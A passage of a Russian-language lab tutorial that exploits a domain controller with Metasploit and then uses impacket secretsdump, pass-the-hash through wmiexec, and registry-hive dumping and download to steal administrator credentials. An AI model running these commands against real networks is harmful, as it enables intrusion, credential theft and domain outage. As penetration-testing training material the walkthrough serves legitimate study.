 6. Произведем эксплуатацию уязвимости:

> msf6> run

Данная техника эксплуатации приводит к установке пустого пароля машинного аккаунта контроллера домена, что может повлечь
нарушение работы домена в целом.

7. Для корректной эксплуатации нам нужно сначала получить учетные данные администратора домена, а затем, используя их,
   восстановить старый пароль машинного аккаунта. Используем для этого impacket — набор инструментов для работы с
   протоколами сетевого и прикладного уровня в Python, позволяющего взаимодействовать с Windows-сетями из Linux и вести
   тестирование их безопасности.

> $ locate impacket

8. Ключевым инструментом на этом шаге будет secretsdump – скрипт, используемый для получения учетных данных с удаленных
   Windows-компьютеров или локальных файлов реестра.

> $ python3 /usr/lib/python3/dist-packages/impacket/examples/secretsdump.py

> $ impacket-secretsdump -h

9. Используем secretsdump для получения NTLM-хэша администратора домена. Ключ -just-dc-user позволяет получить хэш
   нужного нам пользователя, -no-pass указывает на то, что пароль машинного аккаунта пустой, sandbox.local – имя домена,
   DC1$ - имя машинной учетной записи, а IP 192.168.0.117 – адрес контроллера домена.

> $ impacket-secretsdump -no-pass -just-dc-user administrator 'sandox.local/DC1$@192.168.0.117'

10. Для восстановления пароля машинной учетной записи нам необходимо вытащить его из реестра Windows, для чего мы можем
    подключиться к контроллеру домена с помощью инструмента wmiexec, который используется для выполнения команд на
    удаленной системе Windows через WMI (Windows Management Instrumentation).

> $ impacket-wmiexec -h

11. Укажем ранее полученный хэш администратора и проверим права после подключения:

> $ impacket-wmiexec -hashes <hash> 'sandbox.local/administrator@192.168.0.117'

> C:\> whoami

12. Сохраним интересующие нас ветки реестра в отдельные файлы:

> C:\> reg save HKLM\SYSTEM system.save

> C:\> reg save HKLM\SAM sam.save

> C:\> reg save HKLM\SECURITY security.save

13. Скачаем эти файлы на локальную машину:

> C:\> lget system.save

> C:\> lget sam.save
